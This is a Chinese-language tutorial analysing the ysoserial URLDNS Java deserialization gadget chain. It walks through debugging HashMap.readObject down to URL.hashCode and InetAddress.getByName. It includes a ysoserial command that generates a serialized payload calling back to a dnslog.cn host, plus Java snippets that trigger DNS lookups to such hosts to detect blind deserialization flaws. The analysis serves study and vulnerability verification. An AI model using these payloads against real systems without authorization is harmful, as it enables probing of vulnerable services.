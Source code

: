## URLDNS链利用
先来看看用[ysoserial](https://github.com/frohoff/ysoserial)工具怎么利用的。
```bash
# 生成序列化Payload
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar URLDNS http://urldns.epraqr.dnslog.cn/ > a.ser
```
然后将序列化payload发给对应的目标结合漏洞让他进行反序列化，这里本地直接写个反序列化过程举例了；
```java
package org.example;

import java.io.FileInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;

public class App {

    public static void main(String[] args) throws IOException, ClassNotFoundException {
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream("/Users/d4m1ts/d4m1ts/tools/java/ysoserial/target/a.ser"));
        objectInputStream.readObject();
    }
}
```
DNSLog成功收到了请求
![](./02.URLDNS链分析.assets/2023_05_19_10_17_13_vrNPd9YZ.png)
## 动态调试ysoserial
简而言之，就是给[ysoserial](https://github.com/frohoff/ysoserial)项目加载到idea中，方便我们分析调试。
下载ysoserial项目后，导入到idea中，解决掉依赖问题
有的依赖一直装不上，可以新建个maven项目，然后再给不能下载的依赖放到pom.xml，下载后说不定可以解决。
实在不行就手动下载jar然后导入吧
idea会自动识别ysoserial的主类ysoserial.GeneratePayload，然后直接运行项目即可；我们也可以通过pom.xml文件的mainClass属性看到主类，如果正常显示ysoserial的用法，就说明项目部署成功了。
![](./02.URLDNS链分析.assets/2023_05_19_10_17_13_ieSNHXJh.png)
因为ysoserial生成payload需要传入参数，所以我们手动配置一下项目，传入参数
Run --> Edit Configurations...
![](./02.URLDNS链分析.assets/2023_05_19_10_17_14_xB86iwAL.png)
然后在Program arguments输入对应的参数
![](./02.URLDNS链分析.assets/2023_05_19_10_17_14_r8YU5slE.png)
再次运行
![](./02.URLDNS链分析.assets/2023_05_19_10_17_14_rDiEs1dw.png)
生成了序列化数据，说明一切运行成功，就可以用idea开始动态调试了。
## URLDNS链分析
URLDNS是ysoserial里面就简单的一条利用链，但URLDNS的利用效果是只能触发一次dns请求，而不能去执行命令。**比较适用于漏洞验证这一块，尤其是无回显的命令执行**，而且URLDNS这条利用链并不依赖于第三方的类，而是JDK中内置的一些类和方法。
打开ysoserial/payloads/URLDNS.java的源码，可以看到它的调用链
```java
*   Gadget Chain:
 *     HashMap.readObject()
 *       HashMap.putVal()
 *         HashMap.hash()
 *           URL.hashCode()
```
这样看还是有点不特别明白，调试分析看看。
模拟对序列化后的ser文件进行反序列化处理，然后分析整个过程，反序列化代码如下（第一节中的反序列化代码）：
![](./02.URLDNS链分析.assets/2023_05_19_10_17_15_bgpNn1wM.png)
根据上述的Gadget Chain，可见触发点是在HashMap.readObject()，为了节约时间，我们直接在HashMap.readObject()处下断点。
![](./02.URLDNS链分析.assets/2023_05_19_10_17_15_UGoc2fqz.png)
运行主程序开始反序列化，自动在我们下断点的地方暂停。
然后一直F8
根据Gadget Chain发现使用了putVal方法，但这不是重点，重点是会调用hash方法
![](./02.URLDNS链分析.assets/2023_05_19_10_17_15_VPnErzLW.png)
跟进hash方法
![](./02.URLDNS链分析.assets/2023_05_19_10_17_15_EqJBeo51.png)
如果key不是null就会调用key.hashCode方法，跟进hashCode方法，这里调用的是URL类中的hashCode方法
![](./02.URLDNS链分析.assets/2023_05_19_10_17_16_OFL2n0mI.png)
当hashCode属性不为-1时就直接return，就不会触发hashCode方法，也就不会触发接下来的DNS解析
这里hashCode值默认为 -1，所以会执行 handler.hashCode(this);
URLDNS链中也通过反射将hashCode的值设置为-1
![](./02.URLDNS链分析.assets/2023_05_19_10_17_16_12GLYlEn.png)
跟一下handler，看看是什么玩意儿
![](./02.URLDNS链分析.assets/2023_05_19_10_17_16_zwyLO8Cb.png)
是URLStreamHandler类（也是我们传入的handler），也就是说这里调用的是URLStreamHandler.hashCode
跟进hashCode方法，发现会调用getHostAddress方法对传入的URL对象进行解析
![](./02.URLDNS链分析.assets/2023_05_19_10_17_16_bXLmFVcA.png)
跟进getHostAddress方法，发现会调用getHost方法，然后调用InetAddress.getByName(host)发起DNS请求，至此整个过程完毕。
![](./02.URLDNS链分析.assets/2023_05_19_10_17_17_Fal5ygKx.png)
## 思考
分析过程中，发现HashMap.put方法中也调用了hash方法，然后去进行hashCode计算等。
![](./02.URLDNS链分析.assets/2023_05_19_10_17_17_tgmPBTnu.png)
那么就是说，在put操作的时候，也会触发对应的dns解析，试试看。
```java
package org.example;

import java.net.MalformedURLException;
import java.net.URL;
import java.util.HashMap;

public class App {

    public static void main(String[] args) throws MalformedURLException {
        HashMap map = new HashMap();
        URL url = new URL("http://cgu44y.dnslog.cn/");
        map.put(url, 2);
    }
}
```
![](./02.URLDNS链分析.assets/2023_05_19_10_17_17_Sx7BnINM.png)
成功获取到了DNS解析请求记录。
那么为什么ysoserial在生成序列化数据的时候，也调用了put方法，但是没有收到DNS解析记录呢？
原因就在于继承抽象类URLStreamHandler的SilentURLStreamHandler类中，重写了openConnection和getHostAddress
![](./02.URLDNS链分析.assets/2023_05_19_10_17_17_Cqh9LHAp.png)
因此在调用 put 方法的时候不会触发 dns 查询。
进行尝试重写了openConnection和getHostAddress，发现确实不能收到dns查询记录。
```java
package org.example;

import java.io.IOException;
import java.net.*;
import java.util.HashMap;

public class App {

    public static void main(String[] args) throws MalformedURLException {
        URLStreamHandler urlStreamHandler = new URLStreamHandler() {
            @Override
            protected URLConnection openConnection(URL u) throws IOException {
                return null;
            }

            @Override
            protected synchronized InetAddress getHostAddress(URL u){
                return null;
            }
        };

        HashMap map = new HashMap();
        URL url = new URL(null, "http://qyd9tm.dnslog.cn/", urlStreamHandler);
        map.put(url, 2);
    }
}
```
那这样我们反序列化的时候不是也因为重写了方法而不能进行 dns 查询吗？
原因在于 URL 里面的 handler 设置的是 transient
我们都知道一个对象只要实现了Serilizable接口，这个对象就可以被序列化，java的这种序列化模式为开发者提供了很多便利，我们可以不必关系具体序列化的过程，只要这个类实现了Serilizable接口，这个类的所有属性和方法都会自动序列化。
然而在实际开发过程中，我们常常会遇到这样的问题，这个类的有些属性需要序列化，而其他属性不需要被序列化，打个比方，如果一个用户有一些敏感信息（如密码，银行卡号等），为了安全起见，不希望在网络操作（主要涉及到序列化操作，本地序列化缓存也适用）中被传输，这些信息对应的变量就可以加上transient关键字。
也就是说**transient修饰符无法被序列化**，所以虽然它最后是没执行dns请求，但是在反序列化的时候还是会执行dns请求
![](./02.URLDNS链分析.assets/2023_05_19_10_17_18_iYb3DGlM.png)
测试一下transient
```java
package org.example;

import java.io.*;
import java.util.Arrays;

public class App {

    public static void main(String[] args) throws IOException, ClassNotFoundException {
        Test test = new Test();
        // 设置值
        test.test = "Test Value";
        System.out.println(test.test);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(test);
        System.out.println(Arrays.toString(byteArrayOutputStream.toByteArray()));

        // 反序列化
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        Test serTest = (Test) objectInputStream.readObject();
        System.out.println(serTest.test);
    }
}

class Test implements Serializable {
    transient public String test;
}
```
![](./02.URLDNS链分析.assets/2023_05_19_10_17_18_gTP7vcAh.png)
可见反序列化后的值为null，说明序列化时并没有将test对应的值代入进去。
## 总结
这条链还是比较简单的，主要是反序列化过程中HashMap的Key会进行Key.HashCode()计算，如果Key传入的是URL(URL context, String spec, URLStreamHandler handler)类型（重写URLStreamHandler避免有多余的DNS请求），在计算hashCode()的时候，就会调用URLStreamHandler.hashCode()触发getHost方法对目标进行DNS解析。
举个例子：
```java
package org.example;

import java.io.IOException;
import java.net.MalformedURLException;
import java.net.URL;
import java.net.URLConnection;
import java.net.URLStreamHandler;

public class App {

    public static void main(String[] args) throws MalformedURLException {
        /*
        * `URL(URL context, String spec, URLStreamHandler handler)`类型，在计算`hashCode()`的时候，就会调用`URLStreamHandler.hashCode()`触发`getHost`方法对目标进行DNS解析
        * */
        URLStreamHandler handler = new URLStreamHandler() {
            @Override
            protected URLConnection openConnection(URL u) throws IOException {
                return null;
            }
        };

        URL url = new URL(null, "http://k0e09d.dnslog.cn/", handler);
        url.hashCode(); // 触发点
    }
}
```
![](./02.URLDNS链分析.assets/2023_05_19_10_17_18_6QBWtyEP.png)
整个调用链如下：
```java
HashMap.readObject() ->  HashMap.putVal() -> HashMap.hash()  -> URL.hashCode() -> URLStreamHandler.hashCode().getHostAddress() -> URLStreamHandler.getHostAddress().InetAddress.getByName()
```
URLDNS 这个利用链主要用来**检测是否存在反序列化漏洞**，有如下两个优点：

- 使用java 内部的类进行构造，不依赖第三方库
- **如果目标可以出网**，在目标**没有回显的时候**，可以用来验证是否存在反序列化漏洞
